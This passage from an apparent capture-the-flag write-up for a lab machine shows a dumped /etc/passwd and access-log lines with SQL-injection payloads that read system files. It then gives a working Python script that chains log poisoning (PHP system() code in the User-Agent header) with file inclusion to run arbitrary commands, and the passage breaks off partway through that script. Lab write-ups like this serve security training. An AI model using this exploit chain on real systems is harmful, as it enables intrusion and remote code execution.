 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
guly:x:1000:1000:guly,,,:/home/guly:/bin/bash
mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
```

### Gaining RCE on the system through code PHP injection in the access logs

I have access to the nginx access logs and I can see that the `User-Agent` header is included in the logs:
```
> /var/log/nginx/access.log
10.10.14.23 - - [14/Apr/2019:21:31:24 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/etc/issue%22%20--%20- HTTP/1.1" 200 423 "-" "python-requests/2.18.4"
10.10.14.23 - - [14/Apr/2019:21:32:38 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/etc/passwd%22%20--%20- HTTP/1.1" 200 925 "-" "python-requests/2.18.4"
10.10.14.23 - - [14/Apr/2019:21:38:00 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/home/guly/user.txt%22%20--%20- HTTP/1.1" 200 398 "-" "python-requests/2.18.4"
```

I control the `User-Agent` header so I can potentially inject PHP code in the access logs and trigger it by making a request to the log file using the LFI from the SQL injection. After some trial and error I found that we can inject any PHP code we want in the `User-Agent` header and that the `system` function is not disabled. To make sure I don't end up with too much PHP statements in the access logs and kill the box, I reset the content of the access log file every time I run a command.

Here's the script I made to execute commands. I could have put more regex in there to clean up the output a bit more but that'll do for now.

```python
#!/usr/bin/python

from bs4 import BeautifulSoup
import re
import readline
import requests

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    cmd = raw_input("> ")
    headers = { "User-Agent": "<?php system('echo **BEGIN** > /var/log/nginx/access.log; %s'); ?>**END**" % cmd}
    r = requests.get("http://10.10.10.126/", headers=headers)
    file = "/var/log/nginx/access.log"
    payload = "25' union select all \"%s\" -- -" % ("invalid' union select all '" + file)
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    m = re.search("\*\*BEGIN\*\*(.*)\*\*END\*\*", str(soup.body), flags=re.DOTALL)
    if m:
```